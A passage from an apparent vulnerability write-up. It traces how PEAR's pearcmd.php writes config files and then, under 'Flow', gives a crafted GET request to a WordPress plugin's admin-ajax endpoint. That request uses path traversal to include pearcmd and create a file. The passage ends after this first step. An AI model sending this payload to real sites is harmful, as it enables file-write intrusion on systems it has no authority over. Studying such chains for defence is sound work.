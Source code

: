```php {title="/usr/local/lib/php/PEAR/Command/Config.php" hl_lines=[38,39,40,41]}
    if (!@System::mkDir($opt)) {
        return $this->raiseError("could not create directory: " . dirname($file));
    }

    if (file_exists($file) && is_file($file) && !is_writeable($file)) {
        return $this->raiseError("no write access to $file!");
    }

    $fp = @fopen($file, "w");
    if (!$fp) {
        return $this->raiseError("PEAR_Config::writeConfigFile fopen('$file','w') failed ($php_errormsg)");
    }

    $contents = "#PEAR_Config 0.9\n" . serialize($data);
    if (!@fwrite($fp, $contents)) {
        return $this->raiseError("PEAR_Config::writeConfigFile: fwrite failed ($php_errormsg)");
    }
    return true;
}
```

This function is the one that writes the config file by `serialize($data)` to convert the configuration into a storable string.

Back in `pearcmd.php`, the params are prepared and assigned to `$params`.

```php
list($tmpopt, $params) = $tmp;
```

![params](params.png "Value of $params in the debugger")

Finally, `$cmd` is executed via `$cmd->run()`:

```php
$ok = $cmd->run($command, $opts, $params);
```

## Flow

1. Send a GET request:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/test_root_path+test_filename.php
```
